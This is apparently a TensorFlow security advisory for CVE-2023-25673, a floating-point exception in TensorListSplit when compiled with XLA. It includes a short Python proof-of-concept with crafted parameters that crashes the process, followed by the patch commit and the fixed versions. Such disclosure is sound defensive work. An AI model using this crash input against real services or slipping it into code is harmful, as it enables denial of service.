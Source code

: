 ## TFSA-2023-013: FPE in TensorListSplit with XLA 

### CVE Number
CVE-2023-25673

### Impact
FPE in TensorListSplit with XLA 
```python
import tensorflow as tf

func = tf.raw_ops.TensorListSplit
para = {'tensor': [1], 'element_shape': -1, 'lengths': [0]}

@tf.function(jit_compile=True)
def fuzz_jit():
 y = func(**para)
 return y

print(fuzz_jit())
```

### Patches
We have patched the issue in GitHub commit [728113a3be690facad6ce436660a0bc1858017fa](https://github.com/tensorflow/tensorflow/commit/728113a3be690facad6ce436660a0bc1858017fa).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx
